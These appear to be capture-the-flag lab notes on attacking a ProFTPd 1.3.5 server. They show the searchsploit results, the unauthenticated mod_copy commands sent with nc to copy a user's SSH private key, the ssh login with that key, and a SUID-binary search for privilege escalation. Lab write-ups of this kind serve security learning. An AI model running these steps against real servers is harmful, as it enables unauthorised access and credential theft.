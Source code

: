 Searchsploit is basically just a command line search tool for exploit-db.com. > searchsploit proftpd 1.3.5

result: 
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                      | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                | linux/remote/36742.txt
------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
------------------------------------------------------------

You should have found an exploit from ProFtpd's mod_copy module. 

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

searchsploit /.../....../


moving files from directory somwhere else where we can access it with nc command :
nc $IP 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa


making file readable just for us :
chmod 600 <file name>
connecting as a user:
ssh -i <file name> kenobi@$IP


Privilege Escalation with Path Variable Manipulation

SUID Bit - User executes the file with permissions of the file owner 

SGID Bit - User executes the file with the permission of the group owner. File created in directory gets the same group owner.

Sticky Bit - No meaning - Users are prevented from deleting files from other users.

find / -perm -u=s -type f 2>/dev/null

result: /sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount